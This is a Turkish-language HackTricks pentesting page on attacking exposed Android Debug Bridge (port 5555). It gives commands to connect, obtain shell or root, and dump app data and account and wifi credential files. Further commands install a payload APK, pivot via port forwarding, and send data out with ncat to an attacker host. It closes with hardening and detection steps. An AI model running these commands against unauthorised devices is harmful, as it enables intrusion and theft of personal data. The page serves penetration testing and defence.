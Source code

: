 # 5555 - Android Debug Bridge

{{#include ../banners/hacktricks-training.md}}

## Temel Bilgiler

From [the docs](https://developer.android.com/studio/command-line/adb):

Android Debug Bridge (adb), Android tabanlı cihazlar ve emülatörlerle iletişim kurmak için bir komut satırı aracıdır. Tipik eylemler arasında paket yükleme, hata ayıklama ve cihazda etkileşimli bir Unix kabuğu alma bulunmaktadır.

- Tarihsel varsayılan TCP portu: 5555 (klasik "adb tcpip" modu).
- Modern Kablosuz hata ayıklama (Android 11+) TLS eşleştirme ve mDNS hizmet keşfi kullanır. Bağlantı portu dinamik olup mDNS aracılığıyla keşfedilir; 5555 olmayabilir. Eşleştirme, adb pair host:port ile yapılır ve ardından adb connect gelir. Aşağıdaki notlara saldırgan etkileri için bakın.

Örnek nmap parmak izi:
```
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: msm8909; model: N3; device: msm8909)
```
## Bağlan

Eğer ADB'yi açık ve erişilebilir bulursanız, hızlıca bağlanmayı ve listelemeyi deneyin:
```bash
adb connect <ip>[:<port>]      # Default is 5555 for classic mode
adb devices -l                 # Confirm it shows as "device" (not unauthorized/offline)
adb shell                      # Get an interactive shell (uid usually shell)
whoami; id; getprop ro.debuggable ro.secure service.adb.tcp.port
adb root || true               # Works on eng/userdebug/insecure builds, many emulators/IoT
```
- Eğer cihaz ADB kimlik doğrulamasını zorluyorsa (ro.adb.secure=1), önceden yetkilendirilmiş olmanız (USB RSA kimlik doğrulaması) veya Android 11+ Kablosuz hata ayıklama eşleştirmesini kullanmanız gerekecek (bu, cihazda görüntülenen bir kezlik bir kod gerektirir).
- Bazı üretici görüntüleri, mühendislik/kullanıcı hata ayıklama derlemeleri, emülatörler, TV'ler, STB'ler ve geliştirme kitleri, kimlik doğrulaması olmadan veya adbd'nin root olarak çalıştığı durumlarda adbd'yi açığa çıkarır. Bu durumlarda genellikle doğrudan bir shell veya root shell'e geçersiniz.

Genel bir ADB komut referansı için bakınız:

{{#ref}}
../mobile-pentesting/android-app-pentesting/adb-commands.md
{{#endref}}

## Hızlı Post-Exploitation

Shell'e sahip olduğunuzda, ayrıcalıkları ve SELinux bağlamını doğrulayın:
```bash
id; getenforce; getprop ro.build.type ro.product.model ro.build.fingerprint
```
### Verileri Listele ve Yakala

- Üçüncü taraf uygulamaları ve yolları listele:
```bash
pm list packages -3
pm path <pkg>
```
- Eğer root erişiminiz varsa (adb root veya su çalışır), /data'ya doğrudan erişebilirsiniz. Aksi takdirde, hata ayıklanabilir uygulamalar için run-as kullanmayı tercih edin:
```bash
# Root olmadan, hata ayıklanabilir bir uygulama için
run-as <pkg> sh -c 'cd /data/data/<pkg> && tar cf - .' | tar xf - -C ./loot/<pkg>

# Root ile
cp -a /data/data/<pkg> /sdcard/<pkg>
exit
adb pull "/sdcard/<pkg>"
```
- Kullanışlı sistem belgeleri (root gereklidir):
- /data/system/users/0/accounts.db ve ilgili AccountManager verileri
- /data/misc/wifi/ (eski sürümlerde ağ yapılandırmaları/anahtarları)
- /data/data/<pkg> altında uygulamaya özel SQLite DB'leri ve shared_prefs

Bunu hassas bilgileri (örneğin, uygulama sırları) almak için kullanabilirsiniz. Chrome veri dikkate alımları hakkında notlar için, [burada](https://github.com/carlospolop/hacktricks/issues/274) belirtilen konuyu inceleyin.

### Kod yürütme ve yük teslimi

- Kurulum yapın ve çalışma zamanı izinlerini otomatik olarak verin:
```bash
adb install -r -g payload.apk         # -g, manifestte belirtilen tüm çalışma zamanı izinlerini verir
adb shell monkey -p <pkg> -c android.intent.category.LAUNCHER 1
```
- Etkinlikleri/hizmetleri/broadcast'ları doğrudan başlatın:
```bash
adb shell am start -n <pkg>/<activity>
adb shell am startservice -n <pkg>/<service>
adb shell am broadcast -a <action>
```

### Port yönlendirme ve pivotlama

Root olmadan bile, adb yerel portları cihaz portlarına ve tersine yönlendirebilir. Bu, cihazda yerel olarak bağlı hizmetlere erişmek veya saldırgan hizmetlerini cihaza açmak için yararlıdır.

- Host->cihaz yönlendirme (cihazda yerel bir hizmete ev sahibi bilgisayarınızdan erişin):
```bash
adb forward tcp:2222 tcp:22       # Cihaz SSH çalıştırıyorsa (örneğin, Termux/Dropbear)
adb forward tcp:8081 tcp:8080     # Uygulamanın yerel hata ayıklama sunucusunu aç
```
- Ters cihaz->host yönlendirme (cihazın ev sahibi bilgisayarınızdaki bir hizmete ulaşmasına izin verin):
```bash
adb reverse tcp:1080 tcp:1080     # Cihaz uygulamaları artık host:1080'e 127.0.0.1:1080 olarak ulaşabilir
```
- Soketler üzerinden dosya dışa aktarımı (sdcard yazma yok):
```bash
# Host'ta: dinle
ncat -lvp 9000 > dump.tar
# Cihazda: dizini tar olarak gönder (root veya run-as uygun olduğunda)
adb shell "tar cf - /data/data/<pkg>" | ncat <HOST_IP> 9000
```

## Kablosuz Hata Ayıklama (Android 11+)

Modern Android, cihaz tarafı eşleştirme ve mDNS keşfi ile TLS korumalı kablosuz hata ayıklama uygular:
```bash
# On the device: Developer options -> Wireless debugging -> Pair device with pairing code
# On attacker host (same L2 network, mDNS allowed):
adb pair <device_ip>:<pair_port>   # Enter the 6-digit code shown on device
adb mdns services                  # Discover _adb-tls-connect._tcp / _adb._tcp services
adb connect <device_ip>:<conn_port>
```
Notlar
- Portlar dinamik; 5555 varsaymayın. mDNS hizmet adları şöyle görünür:
- _adb-tls-pairing._tcp (eşleştirme)
- _adb-tls-connect._tcp (eşleştirilmiş bağlantı)
- _adb._tcp (eski/normal)
- Eğer mDNS filtrelenmişse, klasik USB destekli etkinleştirme bazı sürümlerde hala çalışabilir: `adb tcpip 5555` ardından `adb connect <ip>:5555` (yeniden başlatmaya kadar).

Saldırgan etkileri: Cihazın UI'si ile etkileşimde bulunabiliyorsanız (örneğin, fiziksel erişim veya mobil MDM yanlış yapılandırması) Kablosuz hata ayıklamayı etkinleştirip eşleştirme kodunu görebilirseniz, kablo olmadan uzun süreli eşleştirilmiş bir ADB kanalı kurabilirsiniz. Bazı OEM'ler, eşleştirme olmadan mühendislik/geliştirme görüntülerinde ADB'yi TCP üzerinden açar—her zaman kontrol edin.

## Güçlendirme / Tespit

Savunucular, erişilebilir herhangi bir adbd (TCP) için kritik risk olduğunu varsaymalıdır.

- Gerekmediğinde ADB ve Kablosuz hata ayıklamayı devre dışı bırakın. Geliştirici seçeneklerinde USB hata ayıklama yetkilendirmelerini iptal edin.
- Ağ politikasının güvenilmeyen segmentlerde gelen TCP/5555 ve mDNS tabanlı ADB keşfini engellediğinden emin olun.
- Kontrolünüz altındaki cihazlarda:
```bash
settings put global adb_enabled 0
setprop service.adb.tcp.port -1   # TCP dinlemeyi devre dışı bırak (veya kullan: adb usb)
stop adbd; start adbd             # daemon'u yeniden başlat
```
- Kurumsal ağlarda `_adb._tcp`, `_adb-tls-connect._tcp`, `_adb-tls-pairing._tcp` için mDNS kayıtlarını izleyin ve beklenmeyen 5555 dinleyicileri için uyarılar oluşturun.
- Güvensiz sürümler için envanter: `getprop ro.debuggable`, `ro.build.type`, ve `ro.adb.secure`.

## Shodan

- android debug bridge
- port:5555 product:"Android Debug Bridge"

## Referanslar

- Android Developers – Android Debug Bridge (adb): https://developer.android.com/studio/command-line/adb
- AOSP – ADB over Wi‑Fi, pairing and mDNS service names: https://android.googlesource.com/platform/packages/modules/adb/+/refs/tags/android-vts-15.0_r2/docs/dev/adb_wifi.md
{{#include ../banners/hacktricks-training.md}}
